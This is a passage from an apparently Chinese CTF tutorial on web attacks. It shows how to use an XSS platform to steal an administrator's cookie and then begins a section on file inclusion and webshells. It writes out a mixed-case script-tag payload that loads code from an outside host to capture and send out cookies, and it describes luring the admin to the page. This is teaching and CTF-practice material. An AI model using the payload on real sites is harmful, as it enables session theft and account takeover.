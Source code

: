 比如这里我们需要获取管理员的cookie，就勾上![120LVI.png](https://s2.ax1x.com/2020/02/07/120LVI.png)

点击下一步

就会进入到项目代码，注意，上面的代码都是已经封装好的了，包括接收url什么的，我们直接使用就可以了。

#### 使用

![120I2D.png](https://s2.ax1x.com/2020/02/07/120I2D.png)

比如我们随便挑一个最简单的来使用

```js
<sCrIpt srC=//xs.sb/boJN></sCRipT>
```

我们以C1CTF的xss题目来做例子

![120Hrd.png](https://s2.ax1x.com/2020/02/07/120Hrd.png)

将代码复制到你觉得可能会产生xss的地方，这里点提交后，保存了在一个页面

![1204PK.png](https://s2.ax1x.com/2020/02/07/1204PK.png)

当有用户（带cookie）访问这个页面的时候，此用户的cookie就会被获取并且发送到我们的平台，一般来说我们需要admin的cookie。这题的逻辑是直接发送页面id让管理员检查

![120vPf.png](https://s2.ax1x.com/2020/02/07/120vPf.png)

然后就等着接收就可以了。

#### 接收

在平台里的项目内容里就可以查看到xss的结果了

![120xG8.png](https://s2.ax1x.com/2020/02/07/120xG8.png)

### 收集常见的XSS payload

[Cross-Site-Scripting-Payloads](https://packetstormsecurity.com/files/112152/Cross-Site-Scripting-Payloads.html)

## 文件操作漏洞

总的来说时因为没有经过严格的验证,操作的文件是否在允许的范围内。

危害:

- 导致恶意文件/代码包含
- 导致敏感文件被读取
- 导致文件被删除
- 导致恶意文件上传

### 文件包含

文件包含分为本地文件包含(local file include)、远程文件包含(remote file include)。文件包含可以导致恶意代码被包含,从而获取webshell
